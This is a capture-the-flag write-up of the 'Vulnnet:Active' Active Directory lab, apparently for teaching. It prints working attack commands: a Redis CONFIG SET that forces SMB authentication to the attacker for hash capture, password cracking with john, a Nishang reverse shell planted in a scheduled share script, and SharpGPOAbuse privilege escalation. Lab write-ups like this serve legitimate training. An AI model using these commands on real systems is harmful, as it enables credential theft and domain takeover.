# Vulnnet:Active — Writeup

**Difficulty:** Medium  
**Operating System:** Windows (Active Directory)  

---

## Reconnaissance

### Setup /etc/hosts

Configure DNS resolution for domain:




### Nmap Scan (TCP)


```bash
nmap -p- -sC -sV vulnnet.lab --min-rate 500
```





**Relevant Open Ports:**

- Port 139: SMB (NetBIOS)
- Port 445: SMB
- Port 6379: Redis (legacy/vulnerable Redis deployment)

**Key Finding:** Redis service is vulnerable and allows NTLM hash extraction.

---

## Service Enumeration

### Redis Connection & Vulnerability

```bash
redis-cli -h vulnnet.lab -p 6379
```



**Vulnerable Redis Version:** Redis 2.8.2402 is an outdated version that can be abused to trigger outbound SMB authentication.

This vulnerability allows extraction of NTLM hashes from Windows.

### SMB Enumeration with enum4linux

```bash
enum4linux-ng vulnnet.lab
```







**Important Information Discovered:**

- **OS Release:** 1809
- **OS Build:** 17763
- **Domain SID:** Available
- **DNS Domain:** vulnnet.local
- **FQDN:** VULNNET-Bc3TCK1SHNQ.vulnnnet.local

**Confirmation:** Active Directory environment detected

Possible Domain Controller:
**vulnnet-bc3tck1shnq.vulnnet.local**

### UDP Port Scan (Kerberos/LDAP Discovery)

```bash
sudo nmap -sU --top-ports 1000 --min-rate 100 vulnnet.lab
```




**Additional Ports Found:**

- Port 88 (UDP): Kerberos
- Port 389 (UDP): LDAP

---

## Credential Discovery

### Redis → NetNTLMv2 Capture

**Responder**

`Responder` config to listen what it passed for redis-cli in a terminal:

```
sudo responder -I tun0 -dwv
```

**Redis Commands:**

in another terminal:

```bash
redis-cli -h vulnnet.lab -p 6379
CONFIG SET dir \\YOUR-IP\test
```




**Result:** Redis triggered an outbound SMB authentication request to the attacker-controlled host, allowing Responder to capture the `enterprise-security` user's NetNTLMv2 challenge-response.

### Hash Cracking

Crack the NTLM hash using hashcat or john:

I prefer john

```bash
john hash.txt --worlist=/PATH/TO/YOUR/rockyou.txt
```




**Credentials Recovered:**

```
enterprise-security:{REDACTED}
```

---

## Initial Access

### Extended SMB Enumeration

Use credentials with enum4linux for deeper enumeration:

```bash
enum4linux-ng vulnnet.lab -u enterprise-security -p {PASSWORD}
```



**Enterprise-Share** was found

### PowerShell Script Discovery




During enumeration, a suspicious PowerShell script was discovered in the writable `Enterprise-Share`. The script appeared to be associated with periodic execution.



**Script Analysis:** The script appeared to execute commands periodically

### Reverse Shell Payload

Download Invoke-PowerShellTcp from Nishang: 

REFERER: https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1

**Modification:**

Add on script:

```powershell
Invoke-PowerShellTcp -Reverse -IPAddress YOUR-IP -Port 9999
```

And replace the script on smbclient with our Nishang reverse shell



### Shell Reception

```bash
nc -lvnp 9999
```





**Result:** Interactive PowerShell shell received as enterprise-security user

### First Flag

Navigate to Desktop:

```powershell
cd Desktop
cat user.txt
```



**Flag 1 Captured**

---

## Privilege Escalation

### Sharphound Data Collection

First, I started a Python HTTP server to transfer SharpHound to the target.

Download SharpHound.ps1 with `wget`




Run Sharphound to enumerate Active Directory structure:

```powershell
Import-Module .\SharpHound.ps1
Invoke-BloodHound -CollectionMethod ALL
```

**Output:** .zip file saved to Downloads directory

Transfer zip file to attack machine via SMB:

1. Discover SMB shares:

```bash
net share
```



2. Copy file to share:

```powershell
cp C:\Users\Enterprise-security\Downloads\{bloodhound_archive}.zip C:\Enterprise-Share
```

3. Download from attack machine:




4. Import into Bloodhound and analyze

### Bloodhound Analysis





**Finding:** enterprise-security user has `GenericWrite` permissions to SECURITY-POL-VN (GPO) linked to VULNNET.LOCAL domain

---

## GPO Abuse Exploitation

### SharpGPOAbuse Setup

Clone repository:
REFERER: https://github.com/byronkg/SharpGPOAbuse/tree/main

```bash
git clone https://github.com/byronkg/SharpGPOAbuse.git
```

Transfer executable to target machine via Python server:


```powershell
wget http://YOUR-IP:8000/SharpGPOAbuse.exe -OutFile sharp.exe
```




### Exploit Command

Create scheduled task to add user to administrators:

```powershell
.\SharpGPOAbuse.exe --AddComputerTask --TaskName "Help" --Author vulnnet\administrator --command "cmd.exe" -Arguments "/c net localgroup administrators enterprise-security /add" --GPOName "SECURITY-POL-VN"
```

**Objective:** Add enterprise-security to local Administrators group



### Policy Enforcement

Force Group Policy update:

```powershell
gpupdate /force
```



---

## Administrator Access

### Privilege Verification

Verify local group membership:

```powershell
net user enterprise-security
```





**Result:** enterprise-security is now member of local Administrators group

Trying navigate to Administrator's user it doesn't work cause we aren't Administrator user



Although `enterprise-security` is not the built-in `Administrator` account, the account is now a member of the `Administrators` group. This provides administrative access to the system, including access to the administrative `C$` share.

### SMB Share Access (C$)

Now with admin privileges, access hidden admin share:

```bash
smbclient //vulnnet.lab/C$ -u enterprise-security -p {PASSWORD}
```



### Final Flag

Navigate to Administrator Desktop:

```powershell
cd C:\Users\Administrator\Desktop
```




 ```
 get system.txt
 
 cat system.txt
 ```





**Flag 2 Captured**

---
> Made by [NonamesecX](https://github.com/NonamesecX) | For educational purposes only!
